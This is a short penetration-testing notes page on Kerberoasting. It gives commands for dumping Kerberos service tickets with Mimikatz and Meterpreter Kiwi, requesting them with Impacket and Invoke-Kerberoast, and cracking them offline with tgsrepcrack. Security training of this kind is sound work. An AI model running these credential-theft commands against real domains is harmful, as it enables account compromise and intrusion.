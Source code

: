 Similarly to **klist** the list of Kerberos tickets that exist in memory can be retrieved through Mimikatz and save the output to a file:

```
kerberos::list /export
```

{% hint style="info" %}
Note that the service ticket file is binary. Keep this in mind when transferring it with a tool like Netcat, which may mangle it during transfer.
{% endhint %}

then we can use kerberost tool in kali to crack the service account ticket:

```
sudo apt update && sudo apt install kerberoast
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-megabank@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

### Using Meterpreter KIWI

Alternatively loading the **Kiwi module (meterpreter)** will add some additional Mimikatz commands which can performed the same task.

```
load kiwi
kerberos_ticket_list
```

Or by executing a custom Kiwi command:

```
kiwi_cmd kerberos::list
```

### Using Impacket

[Impacket](https://github.com/CoreSecurity/impacket) has a python module which can request Kerberos service tickets that belong to domain users only which should be easier to cracked compared to computer accounts service tickets. However requires valid domain credentials in order to interact with the Active Directory since it will executed from a system that is not part of a domain

```
./GetUserSPNs.py -request megabank.local/client2
```

### Invoke-kerberost

#### The Invoke-Kerberoast.ps1 664 script extends this attack, and can automatically enumerate all service principal names in the domain, request service tickets for them, and export them in a format ready for cracking in both John the Ripper and Hashcat, completely eliminating the need for Mimikatz in this attack.

{% embed url="https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1" %}
